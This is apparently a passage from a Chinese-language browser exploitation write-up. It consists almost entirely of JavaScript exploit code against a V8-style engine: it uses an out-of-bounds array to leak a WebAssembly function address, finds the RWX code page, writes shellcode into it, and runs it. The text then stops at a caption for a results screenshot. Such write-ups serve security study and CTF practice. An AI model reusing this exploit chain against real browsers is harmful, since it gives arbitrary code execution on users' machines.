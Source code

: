 ```javascript
		data_view.setUint8(i, payload[i]);
	}
}

for(let i = 0; i < search_space.length; i++)
{
	var find = 0;
	for(let j = search_space[i][0]; j < search_space[i][1]; j++)
	{
		if((f2i(oob_array[j]) & 0xffffffffn) == 0x0001bd5an ){ // 0x1bd5a = 0xdead *2
			var wasmfunc_addr_idx = j;
			var wasmfunc_addr = (f2i(oob_array[wasmfunc_addr_idx])) >> 32n;
			console.log("[+] leak wasm_func_addr : 0x" + hex(f2i(oob_array[j])));
			console.log("[+] find wasm_func_addr : 0x" + hex(wasmfunc_addr));
			find = 1;
			break;
		}
	}
	if(find == 1) break;
}

var wasm_rwx_idx = Number((wasmfunc_addr -1n +0x68n)/8n);
console.log("[+] find wasm_rwx_idx: 0x" + hex(wasm_rwx_idx*8));
var wasm_rwx_addr_low = (f2i(oob_array[wasm_rwx_idx-1])) >> 32n;
console.log("[+] find wasm_rwx_addr_low : 0x" + hex(wasm_rwx_addr_low));

if((wasm_rwx_addr_low & 0xfffn) != 0x000n){
	var wasm_rwx_addr = (f2i(oob_array[wasm_rwx_idx-1]));
	console.log("[+] find wasm_rwx_addr: 0x" + hex(wasm_rwx_addr));
}else{
	var wasm_rwx_addr_high = ((f2i(oob_array[wasm_rwx_idx])) & 0xffffffffn) << 32n;
	console.log("[+] find wasm_rwx_addr_high : 0x" + hex(wasm_rwx_addr_high));
	wasm_rwx_addr = wasm_rwx_addr_high + wasm_rwx_addr_low;
	console.log("[+] find wasm_rwx_addr : 0x" + hex(wasm_rwx_addr));
}

dataview_write(wasm_rwx_addr, shellcode);
//%DebugPrint(arraybuf);
wasm_function();
```



运行效果图：

